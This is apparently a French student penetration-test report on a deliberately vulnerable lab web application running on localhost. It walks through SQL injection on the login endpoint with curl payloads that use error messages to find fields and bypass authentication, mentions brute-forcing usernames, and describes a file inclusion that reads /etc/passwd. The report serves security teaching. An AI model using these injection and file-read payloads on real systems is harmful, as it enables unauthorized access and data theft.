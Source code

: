 Par chance, le serveur nous retourne une réponse intéréssante : 

---> at VulnerableWebApplication.VLAIdentity.VLAIdentity.VulnerableQuery(String User, String Passwd)

On connait donc, grâce à cette mauvaise gestion des erreurs, le nom des champs, qui sont "User" et "Passwd".

On retente donc ensuite de voir quel champ est injectable, avec les bons champs :

--> curl -ik https://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"user": "'rr'", "passwd": "'\''"}'

Comme le champ passwd n'est pas injectable :

curl -ik https://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username": "'\''", "password": ""}'

On découvre maintenant que le champ user est injectable

On trouve ensuite le nom des colonnes encore grâce aux erreurs indiquées : 

curl -ik https://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"user": "'\''OR username LIKE '\''crocks", "passwd": "re"}'
  
  ---> System.Data.EvaluateException: Cannot find column [username]
  
  On cherche ensuite le nom des colonnes encore grâce aux erreurs indiquées, et on trouve finalement user & passwd.

  On récupère ensuite un token d'authentification grâce à une requête réussie.
  
curl -ik https://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"user": "'\''OR user LIKE '\''e%", "passwd": "re"}'

Comme nous n'avons pas réussi à utiliser hydra, on a réalisé un script réalisé en python, et on a pu bruteforce la table user, afin de trouver un maximum de noms d'utilisateurs.
Concernant les mots de passe, ils sont probablement stockés sous forme de hash, il fallait donc trouver un moyen de dump la base de donnée, ou retenter un brute force avec la liste des bons utilisateurs, sur le champ password.

###  2. Exposure of Sensitive Information to an Unauthorized Actor (CWE-200)

### Commentaire :

A partir du paramètre trouvé (?lang=test) grâce à l'étape de la reconnaissance ( dirb ), on trouve que ?lang=test donne un code 200, ce qui nous amène par la suite à tenter de trouver une vulnérabilité évidente (LFI); on le voit dès la première érreur mentionnée en lançant notre requête: "Could not find file".

Le fait ici qu'on puisse accéder à /etc/passwd, avec un token d'authentification non admin, nous démontre clairement qu'un utilisateur lambda peut accéder à ces informations très sensibles.
